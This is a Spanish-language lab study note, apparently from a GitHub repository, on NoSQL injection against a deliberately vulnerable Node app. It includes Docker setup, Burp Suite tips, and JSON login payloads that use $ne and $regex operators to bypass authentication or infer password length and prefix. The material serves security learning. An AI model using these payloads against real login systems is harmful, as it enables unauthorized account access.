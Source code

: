 # NO-SQL Intection 

## DATABASE - TABLES - COLUMS - DATA 
Asi se conforma una base de datos

DB que son No-SQL (CouchBase, Cassandra, DynamoDB, MongoDB)

https://github.com/Charlie-belmer/vulnerable-node-app Repositorio en Github
- Comando -> **apt install docker-compose** Instalar Docker-Compose, para poder usar el laboratorio que nos clonaremos
- Comando -> **docker-compose up -d** Despliegas el contedor Docker
- Comando -> **docker ps**  Miramos el puerto de Docker 4000 (localhost:4000)
	populated / Reset DB Para que nos cree 5 usuarios

Webpages No-SQLI Cheat Sheet-> **hacktricks no sql injection (https://book.hacktricks.xyz/pentesting-web/nosql-injection)** 
					**payloadallthethings no sql inyection (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQInjection)** 


## Primero en BurpSuite
Lo haremos desde Burp Suite 
- Comando -> **burpsuite &> /dev/null & diswon** Abrimos Burpsuite y lo independizamos 

Ctrl + u -> Encodeas el codigo seleccionado
Ctrl + r -> Para pasarlo al repeater y que ahi sea mas comodo
Ctrl + espacio -> Para ver rapidamente en la derecha la respuesta en el repeater


## Inyecciones NO-SQL

En BurpSuite 
**Content-Type: application/json**  Debe de estar asi si queremos tramitar por Json

### Forma original en Json  
{
	"username" : **"admin"**,
	"password" : **"admin"**
} 

### No-SQL colocando el not-equal en un panel de autenticacion 
Decimos que un campo es valido al existir, mientras que el segundo tambien es valido ya que al momento de decir que no es ese valor, seria una afirmacion. Podemos negar los dos al mismo tiempo o solo un campo, eso si sabemos que uno es valido.
{
	"username" : "admin",
	"password" : **{"$ne":"mongo"}**
} 
{
	"username" : **{"$ne":"admin"}**,
	"password" : "mongo"
} 

### No-SQL colocando regex 
Podemos colocar diferentes expresiones regulares
{
	"username" : "admin",
	"password" : **{"$regex":"^2a"}**
} 
**^** en regex decimos que ese campo empieza con esa letra, palabra, numero 
{
	"username" : "admin",
	"password" : **{"$regex":".{10}"}**
} 
**.{}** Para preguntar si ese campo tiene cierto # de caracteres de longitud



Aveces es necesario cambiar el metodo de GET a POST en BurpSuite y cambiar la estructura en formato Json, agregando el Content-Type en Jason.



